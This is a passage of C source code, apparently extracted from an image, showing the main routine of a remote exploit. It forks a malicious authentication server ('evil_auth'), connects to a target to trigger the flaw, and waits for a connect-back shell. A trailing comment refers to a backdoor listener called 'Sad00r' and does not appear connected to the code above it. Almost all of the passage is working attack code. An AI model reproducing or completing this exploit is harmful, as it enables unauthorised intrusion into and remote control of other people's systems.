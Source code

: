     /* Auth server */
    if (pid1 == 0) {
        kill(getppid(), SIGUSR1);
        signal(SIGUSR1, signal_handler);
        while (!start_auth);
        if (evil_auth(auth_port, buf, strlen(buf)) != 0)
            kill(getppid(), SIGTERM);
            exit(EXIT_SUCCESS);
    }

    if ( (pid2 = fork()) < 0) {
        perror("** fork()");
        kill(pid1, SIGTERM);
        exit(EXIT_FAILURE);
    }

    /* Connect to trigger */
    if (pid2 == 0) {
        int anubis_sock;

        signal(SIGUSR1, signal_handler);
        while (!connect_target);
        if ( (anubis_sock = sock_connect(taddr.sin_addr.s_addr,
                taddr.sin_port)) < 0) {
            exit(EXIT_FAILURE);
        }
        exit(EXIT_SUCCESS);
    }

    /* Start auth */
    while(!start_auth);
    kill(pid1, SIGUSR1);

    if (get_connectback(pid2, lsock) < 0) {
        kill(0, SIGTERM);
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
}

/*
Sad00r provides a more command-line like approach to listening. It gives a menu for input instead of requiring it before compilation.
*/
